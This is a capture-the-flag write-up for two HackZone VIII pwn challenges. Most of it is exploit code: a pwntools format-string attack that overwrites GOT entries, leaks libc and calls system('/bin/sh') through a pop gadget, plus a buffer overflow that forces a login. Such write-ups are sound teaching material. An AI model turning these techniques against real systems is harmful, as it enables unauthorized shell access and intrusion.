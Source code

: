 # HackZone VIII CTF

>  Sun, 12 April 2020, 03:00 CST — Sun, 12 April 2020, 15:00 CST

only 12 hours ... but 5 hours left for me after waking up

## pwn1

### Description

> `nc 79gq4l5zpv1aogjgw6yhhymi4.ctf.p0wnhub.com 11337`
>
> Download: https://storage.ctf.p0wnhub.com/pwn/bd456fb72d202f4e6e6302d98de83196-pwn1.zip
>
> Author: RETTILA


### Attachment

[pwn1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackZoneVIIICTF/pwn/pwn1/pwn1)

### Analysis

#### fmtstr vulnerability

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+10h] [rbp-40h]
  char format[8]; // [rsp+20h] [rbp-30h]

  strcpy(format, "Easiest printf in HZVIII...\nWelcome %s");
  read(0, &buf, 0x20uLL);
  printf(format, &buf, argv);
  fflush(_bss_start);
  exit(0);
}
```

Reading `0x20` bytes to `buf[0x10]` cause that the next variable `format` would be overwritten by the last `0x10` bytes of input string.

### Solution

#### repeat exploit it

overwrite `exit` GOT to `main`:

```python
# exit -> main & leak libc
payload = ''
payload += p64(elf.got['exit'])+p64(elf.got['read'])
payload = payload.ljust(16,'A')
payload +=  '%%%dc'%(elf.sym['main']&0xffff)
payload += '%8$hn%9$s'
payload = payload.ljust(31,'B')

sl(payload)
```

> now we can repeat exploit the format string vulnerability for unlimited times

#### leak libc

We can leak address of `read` in libc at the same time:


```python
data = ru('\x0a\x6e\x20\x48\x5a')[-6:]
read = uu64(data)
info_addr('read',read)
```
> output: read: 0x7fdd43f58350

then use `libc-database` to figure out the version of libc:

```shell
% ./find read 350
ubuntu-trusty-amd64-libc6 (id libc6_2.19-0ubuntu6.14_amd64)
```

calc the base address of libc:

```python
libcbase = read-libc.sym['read']
info_addr('libcbase',libcbase)
```

#### getshell

At first, I tried to use `one_gadget`, but finally failed. I couldn't meet the constraints of `one_gadget`.

```c
0x46428 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4647c execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe9415 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xea36d execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

> too strict

Then I tried to overwrite `system` to `__free_hook`  and use `%10000c` to trigger `free` , but failed again. (succeed in local but failed in remote)

Finally I found that we can set `rdi` to `'/bin/sh'` while calling `printf` . And the input string was stored in stack. So we can puts the address of system into stack and use gadget `pop-ret` to call `system('/bin/sh')`.

#### find the gadget

we need overwrite the address of gadget `pop-pop-pop-pop-ret` to `printf` GOT 

```python
p4r = libcbase + 0x00054f95

pl2 = ''
pl2 += p64(elf.got['printf'])
pl2 = pl2.ljust(16,'C')
pl2 += '%%%dc'%(p4r&0xffff)
pl2 += '%8$hn'
pl2 = pl2.ljust(31,'D')
print pl2

sl(pl2)
```

and the current values of `printf` is its real address in `libc`, so we can find gadget in `libc`.

if `gadget` is near `printf` , we just need to overwrite the last 2 bytes.

```python
In [1]: from pwn import *

In [2]: libc=ELF('./libc.so.6')
[*] '/home/taqini/Downloads/hzctf/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

In [3]: hex(libc.sym['printf'])
Out[3]: '0x54340'
```

> offset of `printf` is `0x54340`

```c
% ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" --all > gadget
% cat gadget | grep "00005.... : pop"
// ...
0x0000000000054f95 : pop r13 ; pop r14 ; pop r15 ; pop rbp ; ret
// ...
```

> choose gadget at `0x00054f95`

#### layout of regs/stack

input `aaaabaaacaaadaaaeaaafaaagaaahaaa` and see the layout of regs after `printf` called:

![](http://image.taqini.space/img/20200412144953.png)

> `rdi` = eaaa (offset=16)
>
> `rsp+0x18` = aaaa (offset=0)

so in the next time calling `printf` puts `'/bin/sh'` and the address of `system` into proper place:

```python
pl3 = 'A'*8+p64(system)
pl3+= '/bin/sh\0'
sl(pl3)
```

finally `system("/bin/sh")` was executed.

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackZoneVIIICTF/pwn/pwn1) 



## BabyPwn
### Description

> easy as ABC.
>
> `nc 20yjtzrx50hpypicbajmro9dy.ctf.p0wnhub.com 1337`
>
> Authors: PsycoR, RETTILA, G0D3L, Likkrid, zpycho

### Attachment

no attachment 

### Analysis

When trying to input something, it said  `Login failed!`

``` 
aaaaaaaaaaaaaaaaaaaaa

Checking password...

Login failed!
```

Maybe the variable of `checking password` can be overwritten while our input string is long enough.

### Solution

```python
payload = cyclic(2048)
sl(payload)
```

Generate a long string and input it to get flag.

```
//...
Checking password...

Successfully logged in!
HZVIII{l1tt13_b4by_0verf1l0w}
```
